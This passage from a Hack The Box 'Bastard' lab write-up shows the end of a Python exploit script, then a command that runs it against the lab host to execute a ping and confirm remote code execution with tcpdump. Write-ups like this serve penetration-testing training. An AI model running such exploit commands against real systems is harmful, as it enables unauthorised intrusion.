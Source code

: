```python
  print ('|                              by pimps                                     |')
  print ('=============================================================================\n')

  args = get_args() # get the cl args
  pwn_target(args.target.strip(), args.function.strip(), args.command.strip(), args.proxy.strip())


if __name__ == '__main__':
  main()
```

Reviewing the code, we see that we need to run the below command to target the system. While the exploit will try to run `id` on the system by default, that's not normally a Windows friendly command. As you can see, I use the `-c` option to have the system ping my machine instead. I can catch the ICMP pings with `sudo tcpdump -i tun0 icmp`. As you can see in the screenshots, we can see the pings locally, which means we have a good RCE with this exploit.

```
python3 7600.py -c 'ping 10.10.14.24' http://10.10.10.9/
```

![](/assets/htb-bastard/rce_ping.png)

![](/assets/htb-bastard/tcpdump_pingresults.png)
